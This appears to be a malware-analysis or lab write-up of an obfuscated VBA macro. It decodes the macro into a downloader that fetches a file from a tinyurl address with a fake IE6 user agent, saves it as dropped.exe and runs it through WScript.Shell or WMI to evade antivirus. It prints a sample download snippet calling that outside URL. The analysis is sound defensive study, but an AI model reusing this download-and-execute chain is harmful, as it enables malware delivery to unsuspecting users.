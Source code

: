 We've got strings from a vba script so we need to decode what
information from the script to know what' s going on .

![A screenshot of a computer code AI-generated content may be
incorrect.](images/media/image1.png)

First let us analyze this block .We are solely focusing on the hex
strings as the others are just functions written in gibberish .

![](images/media/image2.png)

As & in between we need to concatenate

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image3.png)

We get a domain with a suspicious directory

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image4.png)

Next block of code

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image5.png)

Then the very next line says environ(temp)/ & referring to the same
function that gave us dropped exe so right form the tinyurl to this temp
everything seems to be related .

What I can deduce right now is that the url is trying to create a temp
file called dropped.exe .Lets move forward .

![A close up of numbers AI-generated content may be
incorrect.](images/media/image6.png)

This confirm its that something is being created .

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image7.png)

**What it actually is**

- It's a **COM object** (a reusable Windows component).

> **COM objects in plain terms**

- **COM** = Component Object Model.

- They're **built-in Windows components** that behave like little tools
  or libraries.

- You don't "install" them every time; they're already there with
  Windows or Microsoft Office.

- A script (VBA, VBS, PowerShell, etc.) can say *"CreateObject(...)\"*
  and Windows hands it back that tool.

> **Why "class objects"**
>
> Each COM object is exposed as a **class** with methods and properties
> you can call.\
> Example:

- MSXML2.ServerXMLHTTP.6.0 → class for making HTTP requests.

- ADODB.Stream → class for writing/reading files/bytes.

- Scripting.FileSystemObject → class for file operations.

<!-- -->

- Part of Microsoft's XML Core Services (MSXML).

- "ServerXMLHTTP" is a special class inside that library.

- The .6.0 at the end just means "version 6 of the library."

------------------------------------------------------------------------

**What it does**

It gives you a way to **make HTTP(S) requests directly from a script**.\
Think of it as:

- A built-in "web browser without the window."

- You can say: *"connect to this URL, send this request, return the
  response."*

------------------------------------------------------------------------

**Why malware uses it**

- No need to ship a downloader --- Windows already has this object.

- It lets them pretend to be a browser (by setting User-Agent).

- It can talk over HTTPS just like Chrome/Edge/IE.

- Works fine from VBA, VBS, or PowerShell.

------------------------------------------------------------------------

**Typical usage in a malicious VBA script**

Set http = CreateObject(\"MSXML2.ServerXMLHTTP.6.0\")

\'Open a connection

http.Open \"GET\", \"https://tinyurl.com/g2z2gh6f\", False

\'Set fake headers to look like IE6 on Windows 2000

http.setRequestHeader \"User-Agent\", \"Mozilla/4.0 (compatible; MSIE
6.0; Windows NT 5.0)\"

\'Send the request

http.Send

\'At this point, http.ResponseBody contains the downloaded file bytes

------------------------------------------------------------------------

**What happens next**

- The script takes http.ResponseBody (the raw downloaded data).

- Passes it to another COM object: **ADODB.Stream**.

- ADODB.Stream writes those bytes to disk (e.g. as dropped.exe).

- Then Wscript.Shell or Shell runs that file.

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image8.png)

This is the user agent . Probably a fake one for authenctication.

Now we will answer some questions .

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image9.png)

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image10.png)

All straightforward as we decoded the meaning earlier .

![A screenshot of a computer program AI-generated content may be
incorrect.](images/media/image11.png){![A screenshot of a computer code
AI-generated content may be
incorrect.](images/media/image12.png)![A screenshot of a computer code
AI-generated content may be
incorrect.](images/media/image13.png)

Now we are analyzing the later part of the code .

![A screenshot of a computer AI-generated content may be
incorrect.](images/media/image14.png)

Meaninful text out of it is .

WScript.Shell

winmgmts:\\\\.\\root\\cimv2:Win32_Process

1.  **WScript.Shell**

    - Another COM object.

    - Lets scripts run commands, launch executables, interact with the
      system shell.

    - 

    - Malware often uses it to execute the final payload (dropped.exe
      from before).

2.  **winmgmts:\\\\.\\root\\cimv2:Win32_Process**

    - This is **WMI (Windows Management Instrumentation)**.

    - root\\cimv2 = default WMI namespace on Windows.

    - Win32_Process = the WMI class that represents processes.

    - Meaning: The macro is preparing to **spawn a new process through
      WMI** (instead of calling cmd.exe directly).

------------------------------------------------------------------------

**Why malware uses WMI instead of just cmd.exe**

- **Stealth:** Some AV/EDR solutions flag direct cmd/ShellExecute calls.

- **Bypass restrictions:** WMI can spawn processes under different
  contexts.

- **Persistence or lateral movement:** WMI is commonly abused for remote
  code execution across machines.

This ties back to the rest of the VBA:

- **MSXML2.ServerXMLHTTP.6.0** → downloads the malicious file.

- **ADODB.Stream** → saves it as dropped.exe.

- **WScript.Shell / WMI Win32_Process** → executes that file stealthily.

![A screenshot of a computer screen AI-generated content may be
incorrect.](images/media/image15.png)
